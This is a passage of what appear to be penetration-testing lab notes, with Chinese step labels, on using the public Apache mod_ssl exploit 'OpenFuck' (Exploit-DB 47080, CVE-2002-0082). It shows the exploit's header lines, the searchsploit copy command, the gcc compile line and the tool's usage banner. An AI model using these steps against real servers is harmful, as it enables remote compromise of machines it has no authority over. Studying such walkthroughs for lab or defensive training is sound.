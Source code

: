 						  #include <openssl/ssl.h>
						  #include <openssl/rsa.h>
						  #include <openssl/x509.h>
						  #include <openssl/evp.h>
						  
						  #include <openssl/rc4.h>
						  #include <openssl/md5.h>
						  
						  #define SSL2_MT_ERROR 0
						  #define SSL2_MT_CLIENT_FINISHED 3
						  #define SSL2_MT_SERVER_HELLO 4
						  #define SSL2_MT_SERVER_VERIFY 5
						  #define SSL2_MT_SERVER_FINISHED 6
						  #define SSL2_MAX_CONNECTION_ID_LENGTH 16
						  
						  /usr/share/exploitdb/exploits/unix/remote/47080.c
						  ```
					- 將腳本複製到當前資料夾
						- ```shell
						  ┌──(kali㉿kali)-[~/Documents]
						  └─$ searchsploit -m 47080
						    Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
						        URL: https://www.exploit-db.com/exploits/47080
						       Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
						      Codes: CVE-2002-0082, OSVDB-857
						   Verified: False
						  File Type: C source, ASCII text
						  cp: overwrite '/home/kali/Documents/47080.c'? y
						  Copied to: /home/kali/Documents/47080.c
						  ```
					- 根據提示編譯腳本
						- ```shell
						  gcc -o OpenFuck OpenFuck.c -lcrypto
						  ```
					- 啟動腳本確認如何使用
					  collapsed:: true
						- ```shell
						  ┌──(kali㉿kali)-[~/Documents]
						  └─$ ./OpenFuck         
						  
						  *******************************************************************
						  * OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
						  *******************************************************************
						  * by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
						  * #hackarena  irc.brasnet.org                                     *
						  * TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
						  * #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
						  * #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
						  *******************************************************************
						  
						  : Usage: ./OpenFuck target box [port] [-c N]
						  
						    target - supported box eg: 0x00
						    box - hostname or IP address
						    port - port for ssl connection
						    -c open N connections. (use range 40-50 if u dont know)
						    